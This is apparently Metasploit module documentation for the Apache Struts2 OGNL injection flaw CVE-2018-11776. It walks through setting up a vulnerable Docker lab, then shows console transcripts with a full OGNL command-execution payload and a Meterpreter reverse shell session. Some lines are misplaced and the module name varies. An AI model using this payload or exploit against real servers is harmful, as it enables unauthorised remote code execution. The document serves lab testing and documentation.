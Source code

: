 CVE-2018-11776 is a critical vulnerability in the way Apache Struts2 handles namespaces and redirection, which permits an attacker to execute [OGNL(https://commons.apache.org/proper/commons-ognl/language-guide.html) remotely.  Using OGNL, the attacker can modify files and execute commands.

The vulnerability was reported to Apache by [Man Yue Mo] from Semmle in April 2018.  It was widely publicized in August 2018, with PoCs appearing shortly thereafter.

Tomcat versions prior to 7.0.88 will provide output from the injected OGNL and require that we prepend some OGNL to set `allowStaticMethodAccess=true`. Versions starting at 7.0.88 do not provide OUTPUT from injected OGNL and will error if we attempt to modify `allowStaticMethodAccess`.  The `ENABLE_STATIC` option is used to toggle behavior, and the `check` method fingerprints the correct version.

As a result of the lack of OGNL output, we currently cannot support large payloads (namely Windows Meterpreter payloads) on Tomcat versions >= 7.088. Future committers might consider compressing the windows/x64/meterpreter templates or implementing GZIP compression of payloads.



## Vulnerable Application

  The Struts showcase app, with a slight adaptation to introduce the vulnerability, works reliabliy as a practice environment.
  *@hook-s3c* did an amazing job with [their writeup](https://github.com/hook-s3c/CVE-2018-11776-Python-PoC/blob/master/README.md), which I'll include exerpts of here:

  1. From a stock Ubuntu VM, install docker:
  ```
  sudo apt update && sudo apt install docker.io
  ```

  2. Download a vulnerable Struts showcase application inside a docker container:
  ```
  sudo docker pull piesecurity/apache-struts2-cve-2017-5638
  sudo docker run -d --name struts2 -p 32771:8080 piesecurity/apache-struts2-cve-2017-5638
  CONTAINER_ID=`sudo docker ps -l -q`
  ```

  3. Now that the container is running, open a terminal inside of it:
  ```
  sudo docker exec -it $CONTAINER_ID /bin/bash
  ```

  4. From within the container, install your text editor of choice and modify the Struts configs:
  ```
  sudo apt update && sudo apt install nano
  nano /usr/local/tomcat/webapps/ROOT/WEB-INF/classes/struts.xml
  ```

  5. Update the struts config to add this to above line #11:
  ```
  <constant name="struts.mapper.alwaysSelectFullNamespace" value="true" />
  ```

  6. Update the same struts config file to add this above line #78:
  ```
      <action name="help">
          <result type="redirectAction">
              <param name="actionName">date.action</param>
          </result>
      </action>
  ```

  7. Still within the container, shutdown the environment:
  ```
  /usr/local/tomcat/bin/shutdown.sh
  ```

  8. Upon completion, the container will shutdown and you'll return to the host environment.  Restart the container, now with a vulnerable endpoint:
msf5 exploit(multi/http/struts2_namespace_ognl) > set LHOST 192.168.199.134
  ```
  sudo docker start $CONTAINER_ID
  ```

  Congratulations.  You now have a vulnerable Struts server.  If you're following these instructions, your server should be listening on 0.0.0.0:32771.  To confirm:
  ```
  INTERFACE=`ip route list 0.0.0.0/0 | cut -d' ' -f5`
  IPADDRESS=`ip addr show $INTERFACE | grep -Po 'inet \K[\d.]+'`
  PORT_NUM=`sudo docker port $CONTAINER_ID | sed 's/.*://'`
  echo "Struts container is listening on $IPADDRESS:$PORT_NUM"
  ```

## Verification Steps

  Confirm that check functionality works:
  - [ ] Install the application using the steps above.
  - [ ] Start msfconsole.
  - [ ] Load the module: ```use exploit/multi/http/struts_namespace_ognl```
  - [ ] Set the RHOST.
  - [ ] Set an invalid ACTION: ```set ACTION wrong.action```
  - [ ] Confirm the target is *not* vulnerable: ```check```
  - [ ] Observe that the target is *not* vulnerable: ```The target is not exploitable.```
  - [ ] Set a valid ACTION: ```set ACTION help.action```
  - [ ] Confirm that the target is vulnerable: ```The target is vulnerable.```

  Confirm that command execution functionality works:
  - [ ] Set a payload: ```set PAYLOAD cmd/unix/generic```
  - [ ] Set a command to be run: ```set CMD hostname```
  - [ ] Run the exploit: ```run```
  - [ ] Confirm the output is the container ID of your docker environment, e.g: ```b3d9b350d9b6```
  - [ ] You will not be given a shell (yet).

  Confirm that payload upload and execution works:
  - [ ] Set a payload, e.g.: ```set PAYLOAD linux/x64/meterpreter/reverse_tcp```
  - [ ] Configure `LHOST` and `RHOST` as necessary.
  - [ ] Run the exploit: ```run```
msf5 exploit(multi/http/struts2_namespace_ognl) > set LHOST 192.168.199.134
## Options

  **TARGETURI**

  The path to the struts application.  Note that this does not include the endpoint.  In the environment above, the path is `/`.

  **ACTION**

  The endpoint name.  In the environment above, the endpoint is `help.action`.

## Scenarios

### Version of software and OS as applicable

  Checking a vulnerable endpoint, as installed in the above steps:

  ```
  msf > use exploit/multi/http/struts_namespace_ognl
  msf5 exploit(multi/http/struts_namespace_ognl) > set RHOSTS 192.168.199.135
  msf5 exploit(multi/http/struts_namespace_ognl) > set RPORT 32771
  msf5 exploit(multi/http/struts_namespace_ognl) > set ACTION help.action
  ACTION => help.action
  msf5 exploit(multi/http/struts_namespace_ognl) > check
  [+] 192.168.199.135:32771 The target is vulnerable.
  ```

  Running an arbitrary command on the above-described environment:

  ```
  msf5 exploit(multi/http/struts_namespace_ognl) > set VERBOSE true
  msf5 exploit(multi/http/struts_namespace_ognl) > set PAYLOAD cmd/unix/generic
PAYLOAD => cmd/unix/generic
msf5 exploit(multi/http/struts_namespace_ognl) > set CMD hostname
CMD => hostname
msf5 exploit(multi/http/struts_namespace_ognl) > run
[*] Submitted OGNL: (#_memberAccess['allowStaticMethodAccess']=true).(#cmd='hostname').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())

[*] Command ran.  Output from command:
b3d9b350d9b6

[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts_namespace_ognl) > 
  ```

  Getting a Meterpreter session on the above-described environment:

```

msf5 > use exploit/multi/http/struts2_namespace_ognl
msf5 exploit(multi/http/struts2_namespace_ognl) > set ACTION help.action
msf5 exploit(multi/http/struts2_namespace_ognl) > set RHOSTS 192.168.199.135
msf5 exploit(multi/http/struts2_namespace_ognl) > set RPORT 32771
msf5 exploit(multi/http/struts2_namespace_ognl) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_namespace_ognl) > set LHOST 192.168.199.134
msf5 exploit(multi/http/struts2_namespace_ognl) > run

[*] Started reverse TCP handler on 192.168.199.134:4444 
[+] Target profiled successfully: Linux 4.4.0-112-generic amd64, running as root
[+] Payload successfully dropped and executed.
[*] Sending stage (816260 bytes) to 192.168.199.135
[*] Meterpreter session 1 opened (192.168.199.134:4444 -> 192.168.199.135:47482) at 2018-08-31 13:15:22 -0500

meterpreter >
``` 


